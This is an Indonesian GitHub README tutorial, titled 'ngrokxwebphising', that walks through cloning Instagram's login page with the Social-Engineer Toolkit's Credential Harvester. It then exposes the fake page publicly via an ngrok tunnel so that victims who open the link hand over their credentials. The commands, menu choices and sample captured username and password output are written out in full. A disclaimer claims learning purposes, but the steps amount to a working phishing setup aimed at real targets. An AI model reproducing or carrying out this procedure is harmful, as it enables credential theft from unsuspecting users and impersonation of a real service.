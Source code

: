 # ngrokxwebphising by Li3N4X
Ini adalah repository pertama saya di github. Saya bermaksud untuk membuat dokumentasi saat saya belajar *Social Engineering*.
Tunneling web phising menggunakan ngrok. Saya bermaksud untuk berbagi ilmu dan pemahaman dalam maksud dan tujuan untuk belajar dan tidak menyalahgunakanhal yang sudah saya pelajari, karena saya sadar hal ini dapat berbahaya dan dapat disalahgunakan ditangan orang jahat/kriminal. Jika ada, entah siapapun yang melakukan tindakan perusakan/cybercrime yang disebabkan dari pembelajaran tutorial yang saya buat, 
Dengan tegas kami saya tidak bertanggung jawab kepada yang bersangkutan
Saya percaya bahwa tidak mungkin membela diri dari peretas tanpa mengetahui peretasan itu dilakukan.

Tujuan utama dari kegiatan ini adalah untuk mengetahui bagaimana cara kita bisa melakukan sebagai berikut :
- Mengenal Web Phising
- Tunneling
- Ngrok
- Step by step cara

Tools yang saya gunakan : 
- ngrok
- setoolkit

Yang perlu disiapkan terlebih dahulu :
- Akun ngrok
- Install ngrok
- Install setoolkit
- Bahan login page sebuah website

## Tahap Pertama
Kita akan menggunakan dan mencoba bahan yang kita siapkan sudah siap untuk digunakan. 


```
sudo su
setoolkit
```
masuk sebagai super user di linux. Saya menggunakan Kali Linux
lalu buka setoolkit yang sudah disiapkan.
Disini saya tidak akan menjelaskan bagaimana cara instalasi `setoolkit`, karena kali linux sudah menyiapkan itu semua.

```

           ..######..########.########
           .##....##.##..........##...
           .##.......##..........##...
           ..######..######......##...
           .......##.##..........##...
           .##....##.##..........##...
           ..######..########....##...  

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

```
Ini adalah menu yang dapat kita pilih saat pertama kali membuka setoolkit.
mari kita berfokus pada opsi - opsi berikut
```
 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit
```
**Kita pilih opsi nomor 1 Social-Engineering Attacks, lalu akan keluar opsi berikutnya seperti berikut**
```
 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.
```
Kalau diperhatikan dari pilihan yang diberikan, kita dapat mengakses semua opsi, namun akan berbahaya ketika digunakan tanpa etika dan tanpa tanggung jawab
**kita pilih nomor 2 Website Attack Vectors, lalu akan keluar opsi selanjutnya**

```
The HTA Attack method will allow you to clone a site and perform powershell injection through HTA files which can be used for Windows-based powershell exploitation through the browser.

   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu
```
**Kita pilih nomor 3 Credential Harvester Attack Method, lalu akan keluar seperti ini**
```
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu
```
**Saya akan mempraktekkan nomor 2 Site Cloner**

```
##marked
Ujung Tahap Pertama!
set:webattack> IP address for the POST back in Harvester/Tabnabbing [ip.addr.ess.kamu]:
```
**Disini karena untuk mencoba terlebih dahulu, kita lewati tahap ini dengan menekan `Enter` langsung**
```
set:webattack> Enter the url to clone:ur url here!
```
Masukkan website yang halaman loginnya ingin kita clone sebagai media phising.
Sebagai contoh kita akan menggunakan `https://www.instagram.com/accounts/login/`
lalu `Enter`

```
The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                                                              
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                                     
[*] Information will be displayed to you as it arrives below: 
```
**Yup! ini sudah jadi. coba kalian masuk kedalam ip address yang tertera disini `set:webattack> IP address for the POST back in Harvester/Tabnabbing [ip.addr.ess.kamu]:`**

**ya benar, halaman login instagram sudah ada dan persis mirip sekali, coba saja kalian masukkan username dan pass apa saja.. nanti kalian akan menerima trigger dari setoolkit**
```
[*] Information will be displayed to you as it arrives below:                                                      
127.0.0.1 - - [07/Apr/2023 13:14:57] "GET / HTTP/1.1" 200 - #baris ini menandakan kalau alamat IP kalian di 'Klik' dan di akses
127.0.0.1 - - [07/Apr/2023 13:15:06] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
PARAM: ReturnUrl=/                                                                                                 
POSSIBLE USERNAME FIELD FOUND: Username=wicak   #sebagai contoh, saya memasukkan uname dan pass serupa                                                                   
POSSIBLE PASSWORD FIELD FOUND: Password=wicak                                                                      
PARAM: __RequestVerificationToken=CfDJ8B243YWE8BRKugCLYHGbxpuq-BRDJ7001cLwguetYpvI4NFHvm8AYv14MQKQnL-uQWd1oRA_NognBtwsICa_FREBtKwEam3VP1VppEqkMvo3JOUT2U_RPm2YvKXsoYO1njr32n3qp3-DlgHf1fKDorM                                         
PARAM: RememberMe=false                                                                                            
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT. 
```
**Yap! begitu simplenya**

## Tahap Kedua
kita akan mulai menggunakan `ngrok`. Kita akan coba memfungsikan ngrok sebagai media `tunneling` yang akan membuat website palsu kita pada tahap pertama tadi bisa diakses oleh network publik.
Note : 
> pastikan kamu sudah memiliki akun di ngrok, kita akan menggunakan authtoken dari ngrok untuk memulainya
<img src="gambar/ngrok auth.jpeg" alt="Alt text">

Nah, copy-paste kan authtoken yang kalian punya lalu jalankan di terminal dengan menggunakan `./` agar bisa berjalan dengan baik
```
#1
./ngrok config add-authtoken tokenkaliandisinixyz
#2
./ngrok http 80
```
Jalankan masing - masing perintah, maka ngrok akan memulai forwarding ke network publik
<img src="gambar/ngrok ok.jpeg" alt="Alt text">


Oke mari kita coba buka link forwarding yang saya sensor
<img src="gambar/ngrok tes.jpeg" alt="Alt text">
apabila sudah tampil seperti ini artinya tunneling kita sudah berhasil dan siap kita isi dengan website dari localhost yang kita punya


**oke sampai disini kita lihat tahap pertama tadi pada bagian ini `set:webattack> IP address for the POST back in Harvester/Tabnabbing [ip.addr.ess.kamu]:80`**
Tuliskan 80 (sama seperti yang kita lakukan pada ngrok)lalu tekan `enter`

Lalu apalagi? yasudah kita tinggal menyelesaikan langkah - langkah yang ada di setoolkit. Ketika sudah kalian tinggal meng-copy url forwarding yang telah github berikan. Dengan begitu, target yang membuka link tersebut akan melihat halaman login phising yang telah dibuat.
Ketika link dari ngrok sudah mendapat trigger dan masukan dari korban, kalian akan mendapat notifikasi yang sama seperti pada tahap pertama diatas.

Akhir kata saya ucapkan terima kasih atas perhatiannya. Saya harap ini dapat membantu pembaca untuk sama sama saling belajar. Apabila ada salah kata, kritik, dan saran, saya sangat terbuka untuk itu dan saya akan berusaha untuk tetap merespon. 

Terima Kasih
Li3N4X
